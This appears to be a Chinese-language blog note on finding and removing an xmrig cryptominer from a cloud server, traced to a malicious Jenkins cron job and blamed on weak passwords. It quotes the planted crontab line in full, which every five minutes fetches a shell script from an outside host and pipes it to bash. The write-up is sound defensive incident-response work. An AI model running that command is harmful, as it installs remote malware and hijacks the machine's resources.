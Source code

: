 ## xmrig 挖矿

查看服务器 CPU 是否异常

```bash
$ top
PID   USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
11347 root      20   0 2440420   2.0g   4012 S 201.0  14.0   2399:29 xmrig
```

发现 xmrig 占用很高。之后查云服务器发现这个挖矿程序，来源一个定时任务（crond）

![image-20240307103951770](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307103951770.png)

直接查看定时任务日志，发现都是 jenkins 和 postgres 的

```bash
$ cat /var/log/cron
```

![image-20240307104644743](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307104644743.png)

去查看定时任务

```bash
$ cd /var/spool/cron
$ ll
```

![image-20240307104352352](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307104352352.png)

果然，定时任务里面有 jenkins 和 postgres 的，postgres 的没问题

```bash
$ cat jenkins
*/5 * * * * (curl -fsSL cc.0889.org/cc.sh || wget -q -O - cc.0889.org/cc.sh) | bash >/dev/null 2>&1
```

jenkins 定时任务是挖矿的根源，它会去一个美国站点下载 shell 脚本之后执行，太可怕了...

![image-20240307110014013](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307110014013.png)

把 jenkins 定时任务删掉，之后再把挖矿程序删掉

```bash
$ rm -rf /var/tmp/.xmrig
```

![image-20240307105011834](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307105011834.png)



我的服务器才 2核2G，运行 Jenkins 会占用很大内存，也不太需要了，况且阿里云有阿里云效。索性直接把 Jenkins 删除了

```bash
$ userdel jenkins
$ rm -rf /var/lib/jenkins/
$ rm -rf /var/cache/jenkins/
# 查看用户，发现jenkins没了
$ cat /etc/passwd | grep jenkins
```

总结：其实最根本的问题还是在于 Jenkins 和 postgres 密码口令太弱了，轻易就被攻破了，最好是把密码设置的强一些（同理：mongodb、mysql、redis）